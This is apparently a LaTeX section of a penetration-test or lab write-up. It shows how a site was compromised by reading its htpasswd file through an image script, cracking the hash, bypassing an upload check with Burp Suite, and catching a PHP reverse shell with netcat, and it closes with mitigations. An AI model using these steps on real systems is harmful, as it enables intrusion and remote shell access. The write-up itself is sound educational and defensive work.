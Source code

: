   	\subsubsection*{Confirmation method}
  	    First, get the credentials to the admin panel by navigating to 		
\begin{verbatim}
www.artstailor.com/brian/getimage.php?raw=true&file=htpasswd
\end{verbatim}
    and then running this through John The Ripper to get the following censored credentials
\begin{verbatim}
Brian: Sw...h
\end{verbatim}
    We can alter the reverse shell we want to upload to make sure it comes back to our own machine. For me, this was
\begin{verbatim}
$ip = '172.24.0.10'
$port = '6166'
\end{verbatim}
    Next, we want to move this file to a jpg file and then open up Burp Suite and upload this file as a test to see how the file is uploaded. We
    can then alter the POST packet to change the name to reverse.php as it seems to only check the Content-Type if we upload it directly on Burp Suite.
    Lastly, we open up netcat to the port we wrote earlier and navigate to the reverse.php as follows
\begin{verbatim}
nc -nlvp 6166
xdg-open www.artstailor.com/brian/imgfiles/reverse.php
\end{verbatim}
    On the terminal with netcat open, we can now see that we have a shell and running whoami reveals that we are in fact www-data. Running ip a further reveals that we are on
    172.70.184.133 which is the IP where the brian site was hosted on.

    \subsubsection*{Mitigation or Resolution Strategy}
    To mitigate a reverse shell attack, there are a few strategies that could have been employed. Firstly, a forward facing admin panel should try to be avoided, especially to do
    something like upload images which can be done on the system without having to expose this code to the user. If brian is the only admin to the account that can upload content, there
    is no point in leaving the script up on the site. Next, there should not have been a way for any user to get access to the htpasswd file. The server should have been configured to ensure
    there is no way to get access to this file through some sort of configuration. The hash should also have not been as easy to guess and should have been a harder password. Also, there
    should be better restrictions on the file types that are uploaded. For example, some sort of server-side validation should have been performed instead of a simple extension check. Using 
    something as simple as the file command would have made it a little harder to upload the file. 



